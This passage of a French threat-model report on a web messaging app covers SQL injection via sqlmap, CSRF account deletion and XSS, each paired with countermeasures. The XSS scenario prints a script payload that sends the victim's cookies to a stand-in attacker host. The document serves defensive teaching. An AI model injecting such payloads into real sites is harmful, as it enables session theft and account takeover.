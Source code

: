     Attributs : url (url vers la page de login), data (paramètres transmis au serveur à travers la requête), p (paramètre à tester), technique=T (time-based blind attack), risk + level (le plus haut niveau de test de l'attaque), dump-all (récupération de la structure et les données de la base de données)

-  Contremesures :

  - Préparation des requêtes, pour tous les paramètres transmis à la base de données
  - Hachage des mots de passes, afin qu'en cas de récupération des informations, ils ne soient pas utilisables

### Scénario d'attaque 2 :

Suppression d'un compte (CSRF)

- Impact sur l'entreprise : moyen
- Source de la menace : hacker, script-kiddies
- Motivation : amusement, déranger l'entreprise
- Elément cible : compte d'un collaborateur
- Scénario d'attaque :
  - Il faut en premier lieu trouver l'endpoint qui permet d'envoyer la requête de suppression d'un utilisateur. Pour ce faire, on va utiliser un scanner de contenu (dirb par exemple)
  - Trouver le paramètre nécessaire pour supprimer un utilisateur. Si on a accès à la messagerie, on peut essayer d'inspecter le code html afin de trouver des informations
  - Préparer le payload en spécifiant l'endpoint et le(s) paramètre(s) nécessaires pour supprimer l'utilisateur
  - Transmettre le payload à une victime afin qu'il clique sur le lien qui va exécuter la requête vers le serveur
-  Contremesures :
  - Ajout de token anti-CSRF dans les formulaires

### Scénario d'attaque 3 :

Récupération d'un compte administrateur (XSS)

- Impact sur l'entreprise : moyen
- Source de la menace : hacker, script-kiddies, cybercrime
- Motivation : amusement, financier, accès à la gestion des administrateurs
- Elément cible : compte d'un collaborateur administrateur
- Scénario d'attaque :
  - Lors de l'écriture d'un nouveau message par un collaborateur malveillant, on insère comme sujet ou message un payload qui permettra l'attaque XSS. Ce message doit être envoyé à un administrateur
  
  - Si aucun sanitizer n'a été mis en place pour gérer les données, alors l'attaque est possible
  
  - On va donc insérer dans l'un des champs un payload permettant l'attaque, par exemple :
  
    ```html
    <script>
        document.location="http://attaquant.com/get.php?v=" + document.cookie;
    </script>
    ```
  
  - On va ensuite attendre que l'administrateur se connecte à sa messagerie pour que ses identifiants soient envoyés sur le site de l'attaquant
-  Contremesures :
  - Implémenter un sanitizer sur les entrées utilisateurs afin d'encoder les chaînes de caractères avant de les ajouter dans la base de données
